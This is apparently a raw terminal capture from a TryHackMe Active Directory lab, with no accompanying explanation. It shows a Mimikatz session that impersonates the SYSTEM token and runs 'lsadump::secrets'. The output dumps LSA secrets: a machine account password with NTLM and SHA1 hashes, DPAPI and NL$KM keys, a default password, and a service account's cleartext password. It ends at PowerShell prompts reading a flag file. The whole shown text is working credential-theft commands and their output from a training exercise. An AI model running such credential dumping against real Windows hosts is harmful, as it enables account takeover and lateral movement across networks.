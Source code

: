```text
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

488     {0;000003e7} 1 D 17781          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;002e7dc8} 5 D 3496925     ZA\t2_alan.riley        S-1-5-21-3885271727-2693558621-2658995185-5243
(14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 3528379     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : a1403e57976b472bce5f231922ca3942

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db
old/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db

Secret  : DefaultPassword
old/text: vagrant

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 b6 54 c4 83 d9 88 10 f6 ee ae fc b7 ed 2d a2 d6 47 11 3f 8f 4a 6d 7f 72 35 b8 a2 93 3d 5c 5e 3f 03 8d 79 49 90 e7 2e e0
    full: b654c483d98810f6eeaefcb7ed2da2d647113f8f4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
    m/u : b654c483d98810f6eeaefcb7ed2da2d647113f8f / 4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
old/hex : 01 00 00 00 10 4d a3 82 e2 da 30 1f 33 d6 49 a4 c9 81 26 e5 25 59 bb 9f 8a 76 b1 5d 59 c6 87 c6 32 b7 02 0b c1 5b 24 f4 44 d0 74 31
    full: 104da382e2da301f33d649a4c98126e52559bb9f8a76b15d59c687c632b7020bc15b24f444d07431
    m/u : 104da382e2da301f33d649a4c98126e52559bb9f / 8a76b15d59c687c632b7020bc15b24f444d07431

Secret  : NL$KM
cur/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58
old/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@

mimikatz #
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents>
[thmserver1.za.tryhackme.loc]: PS C:\Users\Administrator\Desktop> cat flag2.txt
